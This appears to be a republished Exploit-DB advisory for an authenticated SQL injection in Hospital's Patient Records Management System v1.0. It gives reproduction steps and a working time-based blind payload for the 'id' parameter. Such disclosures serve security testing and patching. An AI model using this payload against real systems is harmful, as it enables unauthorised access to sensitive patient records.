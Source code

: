```yaml
---
title: "Hospitals Patient Records Management System 1.0 - 'id' SQL Injection (Authenticated)"
classes: wide
search: true
categories: 
  - Exploit-DB
tags:
  - Exploit-DB
last_modified_at: 2021-12-30T15:58:26+08:00
toc: true
toc_label: "Contents"
---
```


Information about vulnerability
```bash
- Exploit Title: Hospital's Patient Records Management System v1.0 - 'id' SQL Injection (Authenticated)
- Date: 2021-12-30
- Exploit Author: twseptian
- Vendor Homepage: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html
- Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hprms_0.zip
- Version: v1.0
- Tested on: Kali Linux 2021.4
- Exploit-DB link: https://www.exploit-db.com/exploits/50630
```

## SQL Injection
SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Hospital's Patient Records Management System v1.0 is vulnerable to SQL injection via the 'id' parameter on the patient list.

## Attack Vector
An attacker can compromise the database of the application using some automated(or manual) tools like SQLmap.

## Steps of reproduce
- Step-1: On the dashboard navigate to 'Patient List', then go to 'Action' > 'View Records' page using the following URL: `http://localhost/hprms/admin/?page=patients/view_patient&id=1`

- Step-2: Put the SQL Injection payloads in 'id' field. time-based blind payload : `page=patients/view_patient&id=1' AND (SELECT 2664 FROM (SELECT(SLEEP(5)))ixec) AND 'XcAY'='XcAY`

- Step-3: Now, the Server target accepted our payload and the response got delayed by 5 seconds.